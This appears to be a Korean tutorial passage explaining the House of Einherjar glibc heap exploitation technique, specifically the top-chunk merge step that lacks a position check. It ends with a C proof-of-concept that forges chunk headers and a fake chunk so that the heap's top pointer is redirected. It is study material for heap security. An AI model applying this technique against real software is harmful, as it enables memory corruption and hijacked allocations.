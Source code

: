 - 두 번째 취약점은 위 코드의 [B]에서 발생합니다.

- 만약 p(현재 청크의 주소)의 다음 청크가 top chunk라면 top chunk와 현재 청크를 병합 시킵니다.

- [B] 부분을 보면 현재 청크의 size값을 top chunk의 size값과 더한 후 현재 청크의 주소(p)를 arena의 top 멤버 변수에 저장합니다. 이때, p값에 대한 위치 검증이 없어서 취약점이 발생합니다.

- 이 두번째 코드는 첫 번째 취약점 코드(이전 청크와 병합) 이후에 실행됩니다. 

  즉, 만약 첫 번째 취약점을 통해 이미 p와 fake chunk가 병합된 후 바로 다음에 위치한 top chunk와도 병합을 한다면?

  [B]코드에 의해 top_chunk의 주소는 fake chunk로 변조 되게 됩니다.

- 이 후에는 해커가 원하는 크기의 청크를 할당 받으면, fake chunk에서부터 할당을 받게 됩니다.

### [B] : 실습

```C
// gcc house_of_einherjar2.c -o house_of_einherjar2
#include <stdio.h>
#include <stdlib.h>

int main(){

        long * ptr1;
        long * ptr2;
        long * ptr3;

        long fake_chunk[6];
        long * ptr4;

        ptr1 = malloc(0x70);
        ptr2 = malloc(0x100); // small bin size

        fprintf(stderr, "ptr2 address : %p\n", ptr2);

        ptr2[-1] = 0x110; // size
        ptr2[-2] = (char*)(ptr2-2) - (char*)fake_chunk; // prev_size

        fprintf(stderr, "fake_chunk address : %p\n", fake_chunk);

        fake_chunk[1] = (char*)(ptr2-2) - (char*)fake_chunk; // size
        fake_chunk[2] = fake_chunk;     // for unlink bypass
        fake_chunk[3] = fake_chunk;     // for unlink bypass
        fake_chunk[4] = fake_chunk;     // for unlink bypass
        fake_chunk[5] = fake_chunk;     // for unlink bypass

        fprintf(stderr, "fake_chunk size : 0x%lx\n", fake_chunk[1]);
        fprintf(stderr, "fake_chunk->fd : 0x%lx\n", fake_chunk[2]);
        fprintf(stderr, "fake_chunk->bk : 0x%lx\n", fake_chunk[3]);

        free(ptr2); // av->top = fake_chunk

        ptr4 = malloc(0x200);
        ptr3 = malloc(0x200);	// new chunk!

        fprintf(stderr, "ptr4 address : %p\n", ptr4-2);
        fprintf(stderr, "ptr4->size : %p\n", *(ptr4-1));
        fprintf(stderr, "ptr3 address : %p\n", ptr3-2);
        fprintf(stderr, "ptr3->size : %p\n", *(ptr3-1));

        return 0;
}
```
